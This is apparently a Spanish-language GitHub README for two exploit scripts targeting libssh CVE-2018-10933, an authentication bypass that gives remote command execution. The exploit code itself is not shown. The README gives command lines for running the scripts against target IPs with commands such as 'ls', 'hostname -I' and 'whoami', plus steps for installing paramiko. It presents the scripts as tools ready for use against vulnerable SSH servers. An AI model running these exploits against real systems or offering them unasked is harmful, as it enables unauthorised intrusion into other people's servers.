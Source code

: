 # libssh

Ejecucion de comandos 
libssh 
CVE-2018-10933 
(Ambos exploits cumplen la misma funcion - ya va en gusto usar el que desee)

# Exploit 1

![exploit-libssh](https://user-images.githubusercontent.com/67207446/235363870-a5953fcf-072e-4c78-92fe-734cd9442c96.png)

python3 script_name.py 192.168.1.10 22 ls
python3 script_name.py 192.168.1.10 22 "hostname -I"

# Exploit 2

![image](https://user-images.githubusercontent.com/67207446/235362690-e590b25f-2a75-48f8-afa9-caf0bf4818d3.png)

## Ejecucion

python3 exploit.py --host 172.16.20.x -p 22 "whoami"

## Instalacion y actualizacion de paramiko

Instalacion:

sudo apt-get update
sudo apt-get install python-paramiko

Actualizacion:

pip install --upgrade paramiko
